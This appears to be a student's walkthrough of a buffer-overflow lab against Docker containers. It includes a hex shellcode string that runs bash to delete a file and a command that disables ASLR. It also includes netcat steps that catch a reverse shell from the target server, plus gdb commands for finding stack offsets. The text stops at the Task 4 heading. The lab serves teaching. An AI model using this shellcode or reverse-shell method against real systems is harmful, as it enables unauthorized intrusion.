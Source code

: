 # Task 1: Get Familiar with the Shellcode

Move into the directory "shellcode", create first a file called "remove.txt", and put this content in the shellcode_32.py program for the shellcode variable:

```python
shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   "/bin/rm remove.txt                                        *
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
```
Then, run:

```console
$ ./shellcode_32.py
$ make
$ ./a32.out
```

And you will see that the file will be removed.

# Task 2: Level-1 Attack

Make always sure that you run the following command to disable the address randomization countermeasure enable by default in every OS:

```console
$ sudo /sbin/sysctl -w kernel.randomize_va_space=0
```

Then, after building and starting all the Docker containers (as explained in the Readme.pdf file), send from the attacker machine a request to the server 10.9.0.5 at the port 9090 using netcat:

```console
$ echo hello | nc 10.9.0.5 9090
```

Substitute the values of EBP and BUF variables inside the file exploit.py in the attacker-code folder using the values returned by the target container, execute that file, open a new shell and start to listen at the port 9090 using netcat in order to reverse the shell and communicate with the server 10.9.0.5 (if running with the "-l" option, becomes a TCP server that listens for a connection on the specified port):

```console
$ nc -nv -l 9090
```

Finally, use netcat to send to the server the created badfile that will overflow the stack of the function bof used by the server, injecting a new return address that will point to the code that reverse the shell:

```console
$ cat badfile | nc 10.9.0.5 9090
```

# Task 3: Level-2 Attack

Create a new Makefile for the server code in which we disable all the mitigations and enable the compilation with the debugging option -g (see Makefile inside server-code-debug folder), then run:

```console
$ make
```

After that, debug the stack-L2.out and stack-L1.out binary files with -q (option that allow to read from a binary file) and execute the following commands for each of the two executables:

```console
$ gdb -q stack-L?
$ b bof
$ pattern create 2000 input
$ r < input
$ p $ebp
$ p &buffer
```

We can notice that the buffer addresses are differents among the two executables, while the ebp addresses are equal. However, even if these addresses are not the same as the real ones used by the programs running on the servers, they suggest to us that the same ebp is used always by the executables. So, just resuing the same ebp retrived in the previous task, and the buffer address returned by the target container, we can exploit another time the buffer overflow lunching a reverse shell.

Notice that the bof function inside the stack program use 3 local variables. If for example 180 bytes are used to store the buffer, 4 + 4 bytes are used for the other two local variables, so the base pointer ebp address is situated after 188 bytes from the buffer's address, specifically at distance equal to 192.

# Task 4: Level-3 Attack

